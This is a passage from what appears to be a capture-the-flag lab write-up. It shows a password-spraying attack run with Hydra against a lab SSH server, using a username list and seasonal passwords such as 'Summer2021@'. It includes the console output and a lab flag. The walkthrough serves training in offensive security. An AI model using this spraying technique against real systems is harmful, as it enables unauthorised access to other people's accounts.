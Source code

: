 Answer : THM{f8e3750cc0ccbb863f2706a3b2933227}

## TASK 9 : Password spray attack
### Perform a password spraying attack to get access to the SSH://10.10.129.191 server to read /etc/flag. What is the flag?

Creating the usernames-list.txt file then trying different possibilities  but none works :

```console
root@ip-10-10-226-237:~/Desktop/test# hydra -L usernames-list.txt -p Summer2021@ ssh://10.10.129.191
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2022-04-16 12:04:06
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 5 tasks per 1 server, overall 5 tasks, 5 login tries (l:5/p:1), ~1 try per task
[DATA] attacking ssh://10.10.129.191:22/
1 of 1 target completed, 0 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2022-04-16 12:04:09
root@ip-10-10-226-237:~/Desktop/test# hydra -L usernames-list.txt -p Summer2021! ssh://10.10.129.191
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2022-04-16 12:04:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 5 tasks per 1 server, overall 5 tasks, 5 login tries (l:5/p:1), ~1 try per task
[DATA] attacking ssh://10.10.129.191:22/
1 of 1 target completed, 0 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2022-04-16 12:04:15
root@ip-10-10-226-237:~/Desktop/test# hydra -L usernames-list.txt -p Autumn2021! ssh://10.10.129.191
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2022-04-16 12:04:21
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 5 tasks per 1 server, overall 5 tasks, 5 login tries (l:5/p:1), ~1 try per task
[DATA] attacking ssh://10.10.129.191:22/
1 of 1 target completed, 0 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2022-04-16 12:04:23
root@ip-10-10-226-237:~/Desktop/test# hydra -L usernames-list.txt -p Autumn2021@ ssh://10.10.129.191
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2022-04-16 12:04:28
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 5 tasks per 1 server, overall 5 tasks, 5 login tries (l:5/p:1), ~1 try per task
[DATA] attacking ssh://10.10.129.191:22/
1 of 1 target completed, 0 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2022-04-16 12:04:30
root@ip-10-10-226-237:~/Desktop/test# hydra -L usernames-list.txt -p Winter2021@ ssh://10.10.129.191
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

```